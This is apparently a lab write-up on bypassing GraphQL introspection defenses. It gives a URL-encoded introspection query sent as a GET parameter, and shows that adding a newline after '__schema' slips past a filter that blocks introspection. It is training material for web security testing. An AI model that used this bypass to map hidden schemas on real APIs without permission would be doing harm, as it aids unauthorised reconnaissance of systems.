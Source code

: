 **Now need to find a way to bypass the introspection defenses**

1. Send a new request with a URL-encoded introspection query as a query parameter.
To do this, right-click the request and select **GraphQL > Set introspection query**:

**The query**
```
/api?query=query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }

```

URL Encoded as a query in the URL
```HTTP
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

2. Response says introspection disallowed
3. Modify the query to **include a newline character after `__schema` and resend.
```
  __schema
 {
    queryType {
```
VS
```
__schema {
    queryType {
```


For example:
```
/api?query=query IntrospectionQuery {
  __schema
 {
    queryType {
      name
    }
    mutationType {
      name
    }
    subscriptionType {
      name
    }
    types {
      ...FullType
```